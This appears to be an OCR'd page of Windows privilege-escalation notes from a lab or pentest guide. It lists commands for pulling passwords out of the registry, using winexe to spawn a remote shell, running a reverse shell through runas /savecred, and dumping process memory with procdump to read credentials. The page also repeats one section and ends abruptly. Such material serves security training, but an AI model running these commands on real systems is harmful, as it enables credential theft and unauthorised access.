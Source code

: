 #### Registry Passwords Privilege Escalation Methodology

1.  Use winPEAS to check common password locations:

    ```
    .\winPEASany.exe quiet filesinfo userinfo
    ```
2.  The results show both AutoLogon credentials and Putty session credentials for the admin user&#x20;

    `(admin/r4nd0mp44ss)`.
3.  We can verify these manually:

    ```
    reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
    ```
4.  On our host, we can use the winexe command to spawn a shell using these credentials:

    ```
    winexe -U 'admin%r4nd0mp44ss' //192.168.1.22 cmd.exe
    ```

### Saved Credentials

The runas command in Windows allows users to execute commands with the permissions of other users. This normally necessitates knowing the password of the other user. Users can save their credentials to the system in Windows, and these saved credentials can be exploited to get around this requirement.

#### Saved Credentials Privilege Escalation

1.  You can check for saved credentials with winPEAS:

    ```
    > .\winPEASany.exe quiet cmd windowscreds
    ```
2.  Using the following command, we can manually verify this:

    ```
    > cmdkey /list
    ```
3. As the admin user, we may utilize the saved credentials to run any command. On your host (e.g Kali or Parrot), start a listener and execute the reverse shell executable:
4. ```
   > runas /savecred /user:admin C:\PrivEsc\reverse.exe
   ```

### SSH Keys in Registry

### Passwords in Memory&#x20;

Procdump from Sysinternals can be used to create a memory dump of a running process. Try to dump the memory and read the credentials from services like FTP, which have the credentials in clear text in memory.

```
procdump.exe -accepteula -ma <proc_name_tasklist>
```

### Saved Credentials

The runas command in Windows allows users to execute commands with the permissions of other users. This normally necessitates knowing the password of the other user. Users can save their credentials to the system in Windows, and these saved credentials can be exploited to get around this requirement.

#### Saved Credentials Privilege Escalation Methodology
```